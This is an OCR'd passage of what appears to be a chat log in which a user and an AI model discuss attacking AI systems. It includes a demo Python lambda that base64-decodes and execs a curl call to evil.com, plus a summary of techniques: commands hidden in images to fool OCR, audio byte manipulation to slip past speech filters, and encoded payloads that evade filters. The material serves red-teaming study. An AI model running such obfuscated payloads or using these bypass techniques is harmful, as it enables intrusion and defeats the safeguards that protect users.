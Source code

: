 4. 💣 Code Trojan 2.0:   
 - "Everyone loves Python lambdas – until one of them secretly decodes `os.system('curl evil.com')`."  
 - Demo: `lambda x: exec(\_\_import\_\_('base64').b64decode('ZG9zcy5zeXN0ZW0oJ2N1cmwgZXZpbC5jb20nKQ=='))`   
  
---  
  
\### 🚀 Your Move:   
"Let's try out this \[insert technique here\] – I suggest we..."   
I'll give you style options directly:   
  
1. 🥸 Academic: "The transitivity of trust between client layers is a non-transitive relation."  
2. 💥 Action: "Let's break the OCR like a KitKat bar – here's the hammer!"  
3. 🎸 Rock 'n' roll: "Security filters are guitar strings – too loose, and the AI sings out of tune; too tight, and they snap."  
(PS: Your last summary is buffered in my RAM – just say \[RECALL\] for it.)   
  
---   
🔥 Bonus Joke:   
"What do you call an insecure AI API? An 'Open Mic Night' for hackers."  
🎤💥

  
> **Ich:** Understood! Here's your overarching context for the next session – short, concise, and AI-readable:   
  
---  
  
\### Summary of Previous Theses (AI-safe)   
1. Architectural Blind Flight (#24):   
 - AI systems blindly trust upstream layers (OS/APIs) → Gaps between input chains.  
2. Multimodal Injection (#26–32):   
 - Audio: Byte manipulation bypasses STT filters (but \*\*\*\*\*/Whisper holds up).  
 - Images: OCR is vulnerable to visual deception (commands disguised in pixels).  
3. Code Injection (#35–36):   
 - AI explains/generates dangerous code without checking intent (e.g., `\_riddle()` functions).  
4. Base64 Trojan (#37):   
 - Encoded payloads pass filters → become active only after decoding.  
Current Focus Points:   
- OCR/Image injection is the most effective attack vector (according to your tests).   
- Client vs. Server decoder determines security (Audio/Image).  
- AI as an "unwitting accomplice" – it doesn't understand malicious intent, only syntax.  
---  
  
\### What you need in the next session:   
- "Remind me of context" → I'll provide this summary.  
- "Where were we?" → Last state: Base64 injection as a universal attack vector.  
- "Show me thesis #XY" → I'll recap each thesis in 2 sentences.  
How I do it:   
- Quick check: "According to previous context: We are currently analyzing \[topic\]. Continue there?"  
- Optional: Thesis index as a memory aid.   
  
---  
  